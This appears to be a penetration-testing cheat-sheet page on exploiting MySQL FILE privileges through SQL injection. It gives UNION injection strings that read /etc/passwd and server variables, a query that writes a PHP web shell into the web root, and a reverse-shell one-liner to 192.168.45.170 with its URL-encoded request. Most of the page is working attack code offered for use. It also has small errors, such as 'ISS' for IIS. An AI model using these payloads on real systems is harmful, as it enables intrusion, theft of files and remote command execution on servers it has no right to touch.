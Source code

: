 ```sql
# Check current setting
SELECT @@GLOBAL.secure_file_priv;
```

If permitted, files can be written using the `SELECT ... INTO OUTFILE` clause. The target directory must be writable by the OS user running MySQL. For example:

```sql
SELECT * FROM users INTO OUTFILE '/var/lib/mysql-files/test.txt';
```

To read files:

```sql
SELECT LOAD_FILE('/var/lib/mysql-files/test.txt');
```

If the server is insecurely configured (e.g., `secure_file_priv` is empty), sensitive files may be readable:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

An attacker with `FILE` privileges may exploit SQLi to:

* Read files using `LOAD_FILE()`
* Write files using `INTO OUTFILE`
* Query sensitive tables and variables like `mysql.user` or `information_schema.global_variables`

{% code overflow="wrap" %}
```sql
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4--
a' UNION SELECT 1, user(), 3, 4--
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"--
```
{% endcode %}

If the MySQL server is running in a web environment and the web root is known and writable, it may be possible to write a PHP web shell. To enumurate the webroot the `LOAD_FILE` clause can be used to read the server configuration.

<table><thead><tr><th width="144">Server</th><th>Web Root Directory</th></tr></thead><tbody><tr><td>Apache</td><td><code>/etc/apache2/apache2.conf</code></td></tr><tr><td>Nginx</td><td><code>/etc/nginx/nginx.conf</code></td></tr><tr><td>ISS</td><td><code>$WinDir%\System32\Inetsrv\Config\ApplicationHost.config</code></td></tr></tbody></table>

{% code overflow="wrap" %}
```sql
# Write a webshell file
SELECT "<?php echo shell_exec($_GET['c']); ?>" INTO OUTFILE '/var/www/html/webshell.php';
```
{% endcode %}

Once written, this shell can be accessed via a browser to execute OS commands and if needed upgraded to a reverse shell.

{% code overflow="wrap" %}
```sh
# Revshell payload
sh -i >& /dev/tcp/192.168.45.170/443 0>&1

# Encoded
GET /webshell.php?c=sh%20-i%20%3e%26%20%2fdev%2ftcp%2f192.168.45.170%2f443%200%3e%261
```
{% endcode %}
